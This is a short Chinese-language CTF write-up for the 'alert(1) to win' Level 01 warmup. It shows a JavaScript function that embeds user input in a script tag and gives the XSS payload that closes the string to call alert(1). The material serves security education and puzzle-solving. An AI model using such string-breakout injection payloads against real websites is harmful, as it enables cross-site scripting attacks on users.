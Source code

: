 ## [[alert(1) to win](https://alf.nu/alert1)] [[Level 01 - Warmup](https://alf.nu/alert1)] [[解题报告](http://exp-blog.com/2019/05/30/pid-3865/)]

------

## 题目

```javascript
function escape(s) {
  return '<script>console.log("'+s+'");</script>';
}
```

------

## 解题报告

水题，闭合函数即可，payload 如下：

```javascript
");alert(1);("
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/alert/Level%2001%20-%20Warmup/imgs/01.png)


------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
